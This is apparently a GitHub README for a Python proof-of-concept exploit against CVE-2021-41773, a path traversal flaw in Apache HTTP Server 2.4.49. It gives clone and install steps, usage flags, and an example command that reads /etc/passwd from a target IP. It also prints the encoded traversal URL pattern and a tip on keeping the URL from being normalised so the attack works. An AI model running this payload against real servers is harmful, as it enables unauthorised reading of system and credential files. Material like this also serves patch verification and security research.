

# CVE-2021-41773 Apache HTTP Server Path Traversal Exploit

A Python exploit for CVE-2021-41773, a path traversal vulnerability in Apache HTTP Server 2.4.49 that allows reading arbitrary files from the server.

## Vulnerability Details

**CVE-2021-41773** is a path traversal vulnerability in Apache HTTP Server 2.4.49 that occurs due to improper validation of user-supplied paths. The vulnerability allows attackers to read files outside the document root by using URL-encoded path traversal sequences.

- **CVSS Score**: 7.5 (High)
- **Affected Versions**: Apache HTTP Server 2.4.49
- **Vector**: Remote, unauthenticated

## Installation

```bash
git clone https://github.com/blu3ming/PoC-CVE-2021-41773
cd PoC-CVE-2021-41773
pip install -r requirements.txt
```

## Usage

```bash
python3 cve-2021-41773.py -t <target> -f <file_path>
```

### Parameters

- `-t, --target`: Target URL (include protocol and port if needed)
- `-f, --file`: File path to read from the server

### Example

```bash
# Read /etc/passwd
python3 cve-2021-41773.py -t http://192.168.1.100:443 -f /etc/passwd
```



## How It Works

The exploit uses URL-encoded path traversal sequences (`.%2e/%2e%2e/`) to bypass Apache's path validation:

1. The vulnerable Apache version fails to properly decode and validate the path
2. URL-encoded dots (`.%2e`) bypass the initial security checks
3. The server processes the path traversal after decoding, allowing file access

The key is using `urllib3.PoolManager()` instead of `requests.get()` to prevent automatic URL normalization that would break the exploit.

## Technical Details

```python
# The exploit URL structure:
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/{target_file}
```

This translates to:
```
/cgi-bin/../../../../{target_file}
```

## References

- [CVE-2021-41773 - MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [Apache HTTP Server Security Advisory](https://httpd.apache.org/security/vulnerabilities_24.html)
- [NVD - CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)
